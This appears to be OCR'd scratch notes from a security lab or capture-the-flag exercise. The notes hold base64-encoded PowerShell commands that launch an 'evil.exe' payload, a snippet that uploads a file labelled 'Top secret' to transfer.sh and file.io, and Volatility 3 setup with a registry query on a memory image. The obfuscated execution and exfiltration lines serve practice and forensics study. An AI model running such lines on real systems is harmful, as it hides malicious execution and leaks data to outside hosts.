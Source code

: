powershell -enc UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACcAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMAXABlAHYAaQBsAC4AZQB4AGUAJwA=
powershell -enc UwB0AGEAcgB0AC0AUABSAE8AQwBFAFMAUwAgACcAYwBhAGwAYwAuAGUAeABlACcA$$

$path = "$env:TEMP\important.txt"

Set-Content -Path $path -Value "Top secret info from Zakariae's lab"

Invoke-RestMethod -Uri "https://transfer.sh/important.txt" -Method Put -InFile $path -OutFile "$env:TEMP\url.txt"

Start-Process notepad.exe "$env:TEMP\url.txt"




$response = Invoke-RestMethod -Uri "https://file.io" -Method Post -InFile $path -ContentType "multipart/form-data"

$response.link | Out-File "$env:TEMP\url.txt"

Start-Process notepad.exe "$env:TEMP\url.txt"



_______
volqtility

git clone https://github.com/volatilityfoundation/volatility3.git
cd volatility3

pip3 install -r requirements.txt

python3 vol.py -h


8888888888888


sudo apt install python3-venv

python3 -m venv venv

source venv/bin/activate

pip install -r requirements.txt

python3 vol.py -f ch2.raw windows.registry.printkey --key "HKLM\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName"

